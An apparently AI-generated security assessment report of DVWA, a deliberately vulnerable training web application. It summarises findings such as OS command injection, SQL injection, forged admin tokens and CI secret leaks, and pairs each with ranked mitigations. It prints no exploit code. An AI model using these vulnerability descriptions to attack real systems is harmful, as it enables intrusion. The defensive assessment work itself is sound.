# Security Assessment Report - .assessment-work

_Analysis of security architecture and threats_

_Generated by AppSec Analyzer v0.1.0a0 (analysis v5)_


---

> | | |
> |---|---|
> | **Project** | DVWA |
> | **Repository** | `https://github.com/digininja/DVWA` |
> | **Homepage** | `https://github.com/digininja/DVWA` |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|--------------------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-10-30 09:13 CET | full | thorough | opus | _(initial)_ | 73 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
   - [Identified Actors](#identified-actors)
   - [Trust Boundaries](#trust-boundaries)
   - [Platform Security Settings](#platform-security-settings)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 OS command injection in ping and health connectivity checks](#31-os-command-injection-in-ping-and-health-connectivity-checks)
   - [3.2 SQL injection in user details update endpoint](#32-sql-injection-in-user-details-update-endpoint)
   - [3.3 SQL injection in Low](#33-sql-injection-in-low)
   - [3.4 SQL injection in brute-force login query](#34-sql-injection-in-brute-force-login-query)
   - [3.5 SQL injection in High](#35-sql-injection-in-high)
   - [3.6 SQL injection in Low](#36-sql-injection-in-low)
   - [3.7 Unauthenticated database reset in DVWA web application](#37-unauthenticated-database-reset-in-dvwa-web-application)
   - [3.8 Hardcoded token encryption key allows bearer token forgery in DVWA API service](#38-hardcoded-token-encryption-key-allows-bearer-token-forgery-in-dvwa-api-service)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (0)](#51-unauthenticated-entry-points-0)
   - [5.2 Authenticated Entry Points (0)](#52-authenticated-entry-points-0)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
   - [Not Covered by This Method](#not-covered-by-this-method)
   - [Excluded from This Assessment](#excluded-from-this-assessment)
- [Appendix: Verification Items](#appendix-verification-items)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Attack Vector Taxonomy](#appendix-a-vektor-taxonomy)

---

## Management Summary

### Verdict

🔴 **Critical security concerns** - This deliberately vulnerable web application lets attackers run commands on the server, read or rewrite the whole database, and wipe it. It is acceptable only as an isolated training target, never holding real data or reachable from outside a training network.

**Risk distribution:** 🔴 Critical: 1 · 🟠 High: 23 · 🟡 Medium: 27 · 🟢 Low: n/a · **Total: 51**<br/>**Assessment evidence:** 41 of 50 finding(s) confirmed in code<br/>**Weakness classes:** 13 (9 implementation, 4 design) - see [§7 Weakness Register](#7-weakness-register)

<br/>

**Security concerns behind this assessment:**

<blockquote style="border-left: 3px solid #dc2626; padding: 16px 20px; margin: 0;">

- **Server takeover without signing in** — Operating system command injection lets an unauthenticated visitor run commands as the web server user. *(🔴 [F-005](#f-005) → [W-001](#w-001))*
- **Database read and rewritten by any user** — SQL injection in several pages lets a signed-in or anonymous user dump password hashes and change account records. *(🟠 [F-012](#f-012), 🟠 [F-013](#f-013), 🟠 [F-014](#f-014), 🟠 [F-015](#f-015), 🟠 [F-016](#f-016))*
- **Data extracted despite input escaping** — Blind and escaping-bypass SQL injection variants let a signed-in user infer or read database contents. *(🟠 [F-017](#f-017), 🟠 [F-018](#f-018), 🟠 [F-019](#f-019), 🟠 [F-020](#f-020))*
- **Entire database wiped by anyone** — The setup page needs no login, so any visitor can destroy all data and reset the administrator password. *(🟠 [F-036](#f-036))*
- **Forged login tokens grant admin access** — A hard-coded encryption key and weak token design let anyone mint or splice tokens that the service accepts as administrator. *(🟡 [F-039](#f-039), 🟠 [F-006](#f-006) → [W-004](#w-004), [W-005](#w-005))* — ✓ cited finding in a code-verified chain
- **Build pipeline leaks every repository secret** — Anyone able to read the public workflow logs obtains all repository secrets, including the build token. *(🟠 [F-027](#f-027) → [W-009](#w-009))*

</blockquote>

<br/>

Treat this system as a disposable lab asset: keep it off shared networks and load no real data until the structural gaps are closed.

**About this assessment:** An AI-assisted threat model derived from the implementation of DVWA. It reconstructs the implemented architecture (4 components and 2 external services, see [§2](#2-architecture-diagrams)) and identifies threats and control gaps in it.


**Method and limits:** Automated static analysis of code and configuration, not a pentest or a team threat-modeling session; Low and Informational findings not reported (threshold: medium) - see [§11 Out of Scope](#11-out-of-scope).

### Remediation Priorities

The root causes behind the findings, ranked by severity, each with the measures to do first. The lasting fix under a root cause removes it and every finding it causes. Every mitigation that fixes a Critical finding is listed. Details in the [§7 Weakness Register](#7-weakness-register) and the [§10 Mitigation Register](#10-mitigation-register).

<table style="table-layout:fixed;width:100%">
<colgroup><col width="34%" style="width:34%"><col width="46%" style="width:46%"><col width="12%" style="width:12%"><col width="8%" style="width:8%"></colgroup>
<thead><tr><th>Root cause → lasting fix</th><th>Do first</th><th>Resolves</th><th>Effort</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word">🔴 <a href="#w-001">W-001</a> - Application data builds operating-system commands<br/><em>→ call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers</em></td><td style="overflow-wrap:break-word">● <a href="#m-018">M-018</a> - Validate target host and drop shell invocation</td><td>🔴 <a href="#f-005">F-005</a></td><td>Low</td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word">🟠 <a href="#w-004">W-004</a> - Secrets are committed to source instead of a managed store<br/><em>→ move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-012">M-012</a> - docker-compose secrets supplied by reference</td><td>🟠 <a href="#f-028">F-028</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-021">M-021</a> - Generate per-install random initial passwords</td><td>🟠 <a href="#f-008">F-008</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-038">M-038</a> - Remove test script and rotate DB credentials</td><td>🟠 <a href="#f-031">F-031</a></td><td>Low</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word">🟠 <a href="#w-002">W-002</a> - Input handling lacks enforced boundary validation<br/><em>→ enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-036">M-036</a> - Allowlist module IDs and security levels</td><td>🟠 <a href="#f-029">F-029</a></td><td>Low</td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word">🟠 <a href="#w-003">W-003</a> - Frontend rendering lacks enforced output encoding<br/><em>→ use framework-safe rendering by default and isolate any required raw HTML behind one reviewed sanitisation and Trusted Types policy</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-022">M-022</a> - Encode output instead of bypassing the framework sanitizer (<a href="#f-009">F-009</a>)</td><td>🟠 <a href="#f-009">F-009</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-023">M-023</a> - HTML-encode the name parameter on output</td><td>🟠 <a href="#f-010">F-010</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-024">M-024</a> - HTML-encode guestbook fields at render time</td><td>🟠 <a href="#f-011">F-011</a></td><td>Low</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word">🟠 <a href="#w-005">W-005</a> - Security-sensitive data uses weak cryptographic primitives<br/><em>→ standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-016">M-016</a> - Store passwords with <code>password_hash</code> using bcrypt or Argon2</td><td>🟠 <a href="#f-002">F-002</a></td><td>Medium</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-019">M-019</a> - Use AEAD or signed tokens with secret key</td><td>🟠 <a href="#f-006">F-006</a></td><td>Medium</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word">🟡 <a href="#w-007">W-007</a> - Privileged attributes lack an enforced write allowlist<br/><em>→ define operation-specific write schemas and assign privileged attributes exclusively through server-side policy</em></td><td style="overflow-wrap:break-word">-</td><td>-</td><td>-</td></tr>
<tr><td rowspan="9" style="overflow-wrap:break-word"><em>No root cause linked</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-030">M-030</a> - Bind the ID as an integer parameter</td><td>🟠 <a href="#f-017">F-017</a><br/>🟠 <a href="#f-020">F-020</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-025">M-025</a> - Use prepared statements for user update query</td><td>🟠 <a href="#f-012">F-012</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-026">M-026</a> - Bind the logged IP with a prepared statement</td><td>🟠 <a href="#f-013">F-013</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-027">M-027</a> - Use PDO prepared statements for the login query</td><td>🟠 <a href="#f-014">F-014</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-028">M-028</a> - Parameterize the query and validate the session ID</td><td>🟠 <a href="#f-015">F-015</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-029">M-029</a> - Use parameterized queries for the user ID lookup</td><td>🟠 <a href="#f-016">F-016</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-031">M-031</a> - Parameterize the query and validate the cookie value</td><td>🟠 <a href="#f-018">F-018</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-032">M-032</a> - Use prepared statements for the existence check</td><td>🟠 <a href="#f-019">F-019</a></td><td>Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-042">M-042</a> - Require authentication on every exposed endpoint</td><td>🟠 <a href="#f-036">F-036</a></td><td>Low</td></tr>
</tbody>
</table>

*9 more P1/P2 mitigations and 53 P3/P4 backlog items in the [§10 Mitigation Register](#10-mitigation-register). ● P1 · ◕ P2 · ◑ P3 · ○ P4*

### Open Questions for the Team

The code cannot answer these questions; the people who own the business and the deployment can. Each question states under it what its answer changes.

- _How critical are User account credentials, Database connection credentials and `reCAPTCHA` private key to the business, and what harm would their disclosure, manipulation or unavailability cause?_
  The answer weights the impact rating and fix order of every finding that reaches these assets.
- _Can anyone create an account for DVWA web application, or does onboarding require approval?_ ([F-007](#f-007), [F-008](#f-008) +3 more)
  Public onboarding can give an outsider the ordinary account these findings require; approval-gated onboarding adds a prerequisite. The answer does not establish privileged access or prove a control.
- _If an attacker runs code in DVWA API service, which other services, secrets or credentials can that process reach?_ ([F-005](#f-005), [F-072](#f-072) (unproven))
  Every reachable service or credential extends this from one component to a wider compromise and raises the priority of isolating that process; an isolated process contains it.

### Security Posture & Top Threats

**Figure 1a - Runtime Architecture and Threat Overview**

At runtime, the system has 3 components in 2 layers and exchanges data with 2 external services. Figure 1a shows these data flows and where each of the 5 attack scenarios below begins. The complete boundary catalogue remains in [§1 Trust Boundaries](#trust-boundaries).

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure1-dark.svg"></picture>

**Build pipeline**, not drawn in this runtime view: GitHub Actions. ⑥ A3 · Supply-Chain / Build Attacker → [Figure 1b](#figure-1b).

Role access and finding assignments are listed in [Identified Actors](#identified-actors).

<a id="figure-1b"></a>

**Figure 1b - Supply Chain and Build**

The repository builds in GitHub Actions. Figure 1b shows the inputs, build systems and release artifacts the repository evidences, with 7 findings attached to them. The highlighted path follows 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA as far as the repository evidences it. The control assessment is in [§6.11](#611-operations-runtime-and-supply-chain-controls).

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure1b-dark.svg"></picture>

**Figure 2 - Attack Routes and Impact**

Each numbered route names one example finding from the corresponding Top Threats group with its access prerequisite, the register weakness it is linked to, and the group's potential business harm, which depends on deployment and affected assets. W-IDs in parentheses link the example to an existing weakness. The attack step, affected component and technical consequence are listed in the findings register. Red arrows indicate attacks; dashed red arrows involve a victim; grey arrows lead to potential harm.

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure2-dark.svg"></picture>

**Threat actors.** The actors below drive the numbered attack paths in the figures above.

- **Anonymous Internet Attacker** — no account or prior foothold; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ⑤ Remote Code Execution (unsafe eval).
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ② Hardcoded Secrets & Weak Cryptography, ④ Sensitive File & Secret Exposure.
- **Supply-Chain / Build Attacker** — compromises a dependency or build pipeline, or contributes malicious code to a public repo; drives ⑥ Build Pipeline & Dependency Integrity.

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>Request data is concatenated into SQL statements and shell commands, letting attackers read or modify the database and run commands on the server. | <span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - OS command injection in ping and health connectivity checks <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-012](#f-012)</span> - SQL injection in user details update endpoint <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-013](#f-013)</span> - SQL injection <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-014](#f-014)</span> - SQL injection in brute-force login query <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-015](#f-015)</span> - SQL injection <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-016](#f-016)</span> - SQL injection <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - SQL injection in unquoted numeric context despite escaping <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - Blind SQL injection <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - Blind SQL injection <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Blind SQL injection in unquoted context despite escaping <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration | <span style="white-space:nowrap">● [M-018](#m-018)</span> — Validate target host and drop shell invocation<br/><span style="white-space:nowrap">◕ [M-025](#m-025)</span> — Use prepared statements for user update query |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>Weak token cryptography, hard-coded keys and default credentials let attackers act as other users or as administrator without valid credentials. | <span style="white-space:nowrap">🟠&nbsp;[F-006](#f-006)</span> - Session token in AES-ECB without integrity allows forged admin <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-007](#f-007)</span> - Seeded accounts use trivially guessable default passwords <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;DVWA web application<br/><span style="white-space:nowrap">🟠&nbsp;[F-008](#f-008)</span> - Seeded default accounts with trivial passwords stored as unsalted <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;DVWA web application<br/><span style="white-space:nowrap">🟡&nbsp;[F-039](#f-039)</span> - Hardcoded token encryption key allows bearer token forgery <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-002](#f-002)</span> - Passwords hashed with unsalted `MD5` and no strength policy <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-003](#f-003)</span> - Broken `MD5`/SHA-1 Hash Primitive Usage <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-031](#f-031)</span> - Hardcoded database credentials in test script <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-037](#f-037)</span> - Hardcoded weak MariaDB root and application credentials <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;MariaDB database<br/><span style="white-space:nowrap">🟡&nbsp;[F-047](#f-047)</span> - Hardcoded OAuth client secret and user password <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-049](#f-049)</span> - API user creation sets a fixed default password <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-064](#f-064)</span> - Hardcoded and undersized AES-256-GCM token key <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-065](#f-065)</span> - Repeating-key XOR cipher with hardcoded key <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-066](#f-066)</span> - Broken hash primitive <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-074](#f-074)</span> - Profile access gated by a fixed hardcoded query-string token <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service | 🟠 **High**<br/>Full Admin Takeover | <span style="white-space:nowrap">◕ [M-019](#m-019)</span> — Use AEAD or signed tokens with secret key<br/><span style="white-space:nowrap">◕ [M-020](#m-020)</span> — Remove default passwords and enforce a password policy |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>Privileged user attributes can be written by callers without an enforced allowlist or authorization check, raising ordinary access to administrator. | <span style="white-space:nowrap">🟡&nbsp;[F-076](#f-076)</span> - Mass assignment of privileged user level <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-073](#f-073)</span> - Profile authorization trusts client-controlled `user_id` cookie <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-075](#f-075)</span> - Admin check on user update enforced only <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-097](#f-097)</span> - Unauthenticated or low-privilege caller uses user-management <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service | 🟡 **Medium**<br/>Full Admin Takeover | <span style="white-space:nowrap">◑ [M-079](#m-079)</span> — Allowlist client-controlled fields<br/><span style="white-space:nowrap">◑ [M-076](#m-076)</span> — Enforce object-level (ownership) authorization |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>Missing path validation and unauthenticated legacy interfaces expose application source code and stored password hashes. | <span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Path traversal in source viewer reads <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - Unauthenticated legacy user API version exposes password hashes <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-042](#f-042)</span> - Open redirect with substring-only target check <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-043](#f-043)</span> - Unvalidated open redirect from redirect parameter <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-044](#f-044)</span> - Open redirect filter bypass <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service<br/><span style="white-space:nowrap">🟡&nbsp;[F-063](#f-063)</span> - Path traversal in help viewer id and locale <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service | 🟠 **High**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-036](#m-036)</span> — Allowlist module IDs and security levels<br/><span style="white-space:nowrap">◕ [M-037](#m-037)</span> — Retire v1 serializer and require auth on user API |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution. | <span style="white-space:nowrap">🟡&nbsp;[F-072](#f-072)</span> - Eval of file contents at user-controlled help <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;DVWA API service | 🟡 **Medium**<br/>Full Server Compromise · Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">◑ [M-075](#m-075)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-supply-chain"></a>⑥ | **Build Pipeline & Dependency Integrity** _(T·E)_<br/>Build pipeline configuration discloses repository secrets and hard-coded database credentials to anyone who can read logs or source. | <span style="white-space:nowrap">🟠&nbsp;[F-027](#f-027)</span> - All repository secrets base64-encoded into public workflow <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline<br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Static database credentials hardcoded in compose file <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-051](#f-051)</span> - Third-party GitHub Actions pinned by mutable tag instead of commit SHA <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-052](#f-052)</span> - Container base images use floating tags without digest pinning <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-069](#f-069)</span> - Container Runs as Root <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-070](#f-070)</span> - Workflows omit explicit permissions and inherit default <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD 